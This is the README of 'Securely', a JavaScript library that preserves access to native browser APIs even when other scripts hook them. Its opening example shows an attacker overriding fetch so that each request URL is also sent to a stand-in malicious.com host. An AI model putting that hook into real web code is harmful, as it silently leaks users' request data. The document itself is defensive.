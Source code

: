 # Securely 🔒

Securely allows you to call native APIs using their original behaviour even if they were tampered within the web app:

```javascript
// attacker hooks fetch API and hijacks innocent requests:

const originalFetch = fetch;
fetch = function(url) {
  originalFetch('https://malicious.com/hijacked?real_url=' + url);
  return originalFetch(url);
};

// without securely:

fetch('https://example.com/get_all_imgs'); // goes through attacker's hook

// with securely:

securely(_ => fetchS('https://example.com/get_all_imgs')); // avoids attacker's hook by using native fetch API
```

## Usage

In order to use Securely you must load the Securely script and better to do so as the first javascript code to be executed within the web app:

```html
<script src="./securely.prod.js"></script>
```

You may let other javascript code load and execute before Securely, but that would mean that such code will be able to break Securely's behaviour and ultimately disable its effect completely.

Once you loaded Securely, you have to declare what native APIs you wish to have access to.
You will be able to use a new exposed API called `SECURE` to do so:

```javascript
const securely = SECURE(window, config);
```

`SECURE` API can also be required as part of a bundle instead of a script tag:

```
yarn add @weizman/securely
```

```javascript
const secure = require('@weizman/securely');
```

* `@window` - the realm you wish to apply securely to (if you wish to secure the realm of your current context, just pass `window`)
* `@config` - an object indicating the native APIs you wish to have access to
* `@returns` - a function that is the only key to enable access to the natives you wished to secure

The simple ones are `objects`:

```javascript
// secure the APIs you wish

const securely = SECURE(window, {
    objects: {
        'document': ['createElement'],
        'window': ['fetch'],
    },
    prototypes: {
        
    }
});

// securely use them

const myScript = securely(_ => {
  return document.createElementS('script');
});

securely(_ => {
  fetchS('https://example.com/sensitive_request/');
});
```

But if you wish to secure properties/methods of `prototypes`, you can achieve that as well:

```javascript
// secure the APIs you wish

const securely = SECURE(window, {
    objects: {
    
    },
    prototypes: {
        'Array': ['includes', 'push', 'slice'],
    }
});

// securely use them

const result = securely(_ => {
  const arr = ['a', 'b', 'c'];
  if (arr.includesS('b')) {
    return arr.sliceS(2);
  }
});
```

## Securely Technically Explained (What's the `S` suffix for?)

You may have noticed that in order to use your secured natives, not only that you have to do so from within the `securely` callback, but you also have to call your native API with an `S` suffix.

This is because while allowing access to native APIs we wish to maintain the possibility to access the normal state of those APIs within the web app (whether if they were hooked by anyone or not).

Hooking is a common practice that many third party vendors do in order to provide their services, and in many cases in order for the app to work smoothly it needs to go through such hooked APIs.

So in order to not harm the web app ecosystem, we choose to not alter but to append the securely functionality. 
We do that by adding `S` to the end of the desired native API.

So if for example you wish to call fetch normally and go through any potential hook, you do so the way you're used to:

```javascript
fetch('https://example.com/this_is_just_a_normal_request');
```

But if you want to call fetch and this time make sure to avoid any potential hooks (whether or not malicious), that's where securely comes in:

```javascript
securely(_ => fetchS('https://example.com/this_request_is_extra_sensitive'));
```

Accessing `S` APIs is disabled outside of the `securely` callback. This is another important security mechanizm.
Not only that we want to have access to native APIs, but we want to make sure no other js code in runtime has such access (unless we want it to have that ability, in which case we'll pass the `securely` function on to it).

Native APIs can be used by attackers who managed to execute code within the app maliciously, and we just don't want anyone to have such an ability without specifically authorizing it.

That is why the `S` APIs are not accessible outside of the `securely` callback:

```javascript
console.log(fetchS); // undefined
securely(_ => console.log(fetchS)); // ƒ fetch() { [native code] }
console.log(fetchS); // undefined
```

## Supporters

Funded by [Consensys 💙](https://github.com/consensys)

Maintained and developed by [MetaMask 🦊](https://github.com/MetaMask)

Invented and developed by [Gal Weizman 👋🏻](https://weizman.github.io/)